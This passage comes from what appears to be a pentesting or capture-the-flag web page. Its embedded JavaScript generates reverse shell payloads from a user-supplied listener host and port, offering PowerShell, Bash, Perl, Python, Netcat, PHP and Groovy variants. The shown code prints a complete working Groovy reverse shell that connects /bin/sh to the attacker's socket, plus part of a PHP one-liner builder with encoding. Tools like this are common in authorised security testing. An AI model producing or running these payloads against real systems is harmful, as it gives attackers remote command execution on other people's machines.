            res_oneliner = "php -r '" + res_raw.replace(/\n/g, "") + "'";
            res_encoded = encodeBash(res_oneliner);
        } else if (sl == "groovy") { 
            res_raw_hljs = "groovy";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "String host=\"" + lhost + "\";\nint port=" + lport + ";\nString cmd=\"/bin/sh\";\nProcess p=new ProcessBuilder(cmd).redirectErrorStream(true).start();\nSocket s=new Socket(host,port);\nInputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();\nOutputStream po=p.getOutputStream(),so=s.getOutputStream();\nwhile(!s.isClosed()){\n\twhile(pi.available()>0)so.write(pi.read());\n\twhile(pe.available()>0)so.write(pe.read());\n\twhile(si.available()>0)po.write(si.read());\n\tso.flush();\n\tpo.flush();\n\tThread.sleep(50);\n\ttry {\n\t\tp.exitValue();\n\t\tbreak;\n\t} catch (Exception e){}\n};\np.destroy();\ns.close();";
            res_oneliner = "# No one-liner for this payload";
            res_encoded = "# No encoder for this payload";
        }

        updateOutput("rs_result_raw", res_raw, res_raw_hljs);
        updateOutput("rs_result_oneliner", res_oneliner, res_oneliner_hljs);
        updateOutput("rs_result_encoded", res_encoded, res_encoded_hljs);
    }
</script>
<div style="display:flex; width:auto; flex-flow: row wrap;">
    <label for="rs_lhost">LHOST:</label>
    <input name="rs_lhost" id="rs_lhost" style="margin: 0 10px 0 0" onchange="updateCommandOutput()"/>
    <label for="rs_lport">LPORT:</label>
    <input name="rs_lport" id="rs_lport" style="margin: 0 10px 0 0" onchange="updateCommandOutput()"/>
    <label for="rs_select_language">Language:</label>
    <select id="rs_select_language" style="margin: 0 10px 0 0" onchange="updateCommandOutput()">
        <option value="psh">PowerShell</option>
        <option value="psh_ssl">PowerShell (SSL/TLS)</option>
        <option value="psh_powersploit">PowerShell (PowerSploit)</option>
        <option value="psh_powercat">PowerShell (Powercat)</option>
        <option value="bash">Bash</option>
        <option value="bash_mkfifo">Bash (mkfifo)</option>
        <option value="perl">Perl</option>
        <option value="perl_web">Perl (web server)</option>
        <option value="python">Python</option>
        <option value="netcat">Netcat</option>
        <option value="php">PHP</option>
        <option value="groovy">Groovy</option>
    </select>
</div>

#### One-liner

<pre id="rs_result_oneliner"></pre>

#### Encoded

<pre id="rs_result_encoded"></pre>

#### Raw

<pre id="rs_result_raw"></pre>

<script>
    
    if (sessionStorage.getItem("rs_select_language") != null) {
        for (i=0; i < document.getElementById("rs_select_language").length; i++) {
            if (document.getElementById("rs_select_language")[i].value == sessionStorage.getItem("rs_select_language")) {
                document.getElementById("rs_select_language")[i].selected = "true"; 
                break;
            }
        }
    }

    if (sessionStorage.getItem("rs_lhost") != null) {
        document.getElementById("rs_lhost").value = sessionStorage.getItem("rs_lhost");
    } else {
        document.getElementById("rs_lhost").value = "10.10.13.37";
    }
    
    if (sessionStorage.getItem("rs_lport") != null) {
        document.getElementById("rs_lport").value = sessionStorage.getItem("rs_lport");
    } else {
        document.getElementById("rs_lport").value = "1337";
    }

    updateCommandOutput();

</script>

